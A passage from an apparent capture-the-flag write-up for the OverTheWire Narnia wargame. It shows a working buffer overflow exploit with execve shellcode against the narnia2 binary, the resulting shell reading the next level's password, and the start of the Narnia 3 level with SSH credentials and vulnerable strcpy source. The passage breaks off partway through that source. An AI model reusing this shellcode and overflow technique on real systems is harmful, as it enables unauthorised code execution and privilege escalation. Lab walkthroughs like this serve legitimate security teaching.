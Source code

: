 We got a shell, but we need to run it outside GDB's context.

```bash
narnia2@narnia:/narnia$ ./narnia2 $(python -c 'print 104 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x24\xd8\xff\xff"')
$ whoami
narnia3
$ cat /etc/narnia_pass/narnia3
vaequeezee
``` 

Yay, we did it !

## Narnia 03 Solution

**SSH :** *ssh narnia3@narnia.labs.overthewire.org -p 2226*<br/>
**Pass :** *vaequeezee*

First, let's try to execute the program...

```bash
$ ssh narnia3@narnia.labs.overthewire.org -p 2226

narnia3@narnia:~$ cd /narnia/
narnia3@narnia:/narnia$ ./narnia3
usage, ./narnia3 file, will send contents of file 2 /dev/null
```

So, I guess we need to enter a file as argument...

### Source Code

Here is the source :

```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

    int  ifd,  ofd;
    char ofile[16] = "/dev/null";
    char ifile[32];
    char buf[32];

    if(argc != 2){
        printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
        exit(-1);
    }

    /* open files */
    strcpy(ifile, argv[1]);
    if((ofd = open(ofile,O_RDWR)) < 0 ){
        printf("error opening %s\n", ofile);
        exit(-1);
    }
    if((ifd = open(ifile, O_RDONLY)) < 0 ){
        printf("error opening %s\n", ifile);
        exit(-1);
    }

```